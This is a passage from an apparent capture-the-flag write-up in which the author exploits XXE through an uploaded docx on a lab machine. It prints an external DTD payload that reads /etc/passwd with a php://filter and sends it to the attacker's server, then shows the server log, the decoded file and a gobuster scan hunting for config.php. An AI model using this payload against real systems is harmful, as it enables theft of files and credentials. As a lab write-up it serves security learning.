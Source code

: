 ```bash
root@silence:~# cat ext.dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % file "<!ENTITY exfil SYSTEM 'http://10.10.14.5/DATA?%data;'>">
```
The ext.dtd with the file code to exfiltrate /etc/passwd, by using the php-filter to base64 encode the file and then send the base64 data back to our server.

```bash
root@silence:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.173 - - [13/May/2020 19:58:17] "GET /ext.dtd HTTP/1.0" 200 -
10.10.10.173 - - [13/May/2020 19:58:17] code 404, message File not found
10.10.10.173 - - [13/May/2020 19:58:17] "GET /DATA?cm9vdDp[...]L2Jhc2gK HTTP/1.0" 404 -
```
Uploading the new docx document, we get base64 data returned as a response.

```bash
root@silence:~# echo -n "cm9vd...Jhc2gK" | base64 -d
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
gbyolo:x:1000:1000::/home/gbyolo:/bin/bash
```
Base64 decoding the data, we indeed get the /etc/passwd from the server as a response.

### Leaking config.php
Now that we have file-read, let us use gobuster and try to find any interesting file we can leak using this vulnerability.
```bash
root@silence:~# gobuster dir -u http://10.10.10.173 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.173
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/05/13 20:01:07 Starting gobuster
===============================================================
/index (Status: 200)
/profile (Status: 200)
/uploads (Status: 301)
/static (Status: 301)
```